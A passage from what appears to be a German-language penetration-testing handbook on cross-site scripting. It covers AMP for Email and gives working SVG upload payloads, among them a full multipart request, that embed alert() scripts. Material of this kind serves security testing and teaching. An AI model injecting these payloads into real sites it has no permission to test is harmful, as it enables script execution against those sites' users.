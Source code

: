 Wenn Sie keine HTML-Tags injizieren können, könnte es sich lohnen, zu versuchen, **PDF-Daten zu injizieren**:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### XSS in Amp4Email

AMP, das darauf abzielt, die Leistung von Webseiten auf mobilen Geräten zu beschleunigen, integriert HTML-Tags, die durch JavaScript ergänzt werden, um die Funktionalität mit einem Schwerpunkt auf Geschwindigkeit und Sicherheit zu gewährleisten. Es unterstützt eine Reihe von Komponenten für verschiedene Funktionen, die über [AMP-Komponenten](https://amp.dev/documentation/components/?format=websites) zugänglich sind.

Das [**AMP für E-Mail**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) Format erweitert bestimmte AMP-Komponenten auf E-Mails, sodass die Empfänger direkt innerhalb ihrer E-Mails mit Inhalten interagieren können.

Beispiel [**Writeup XSS in Amp4Email in Gmail**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS-Dateien hochladen (svg)

Laden Sie eine Datei wie die folgende als Bild hoch (von [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):
```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert(1);
</script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```
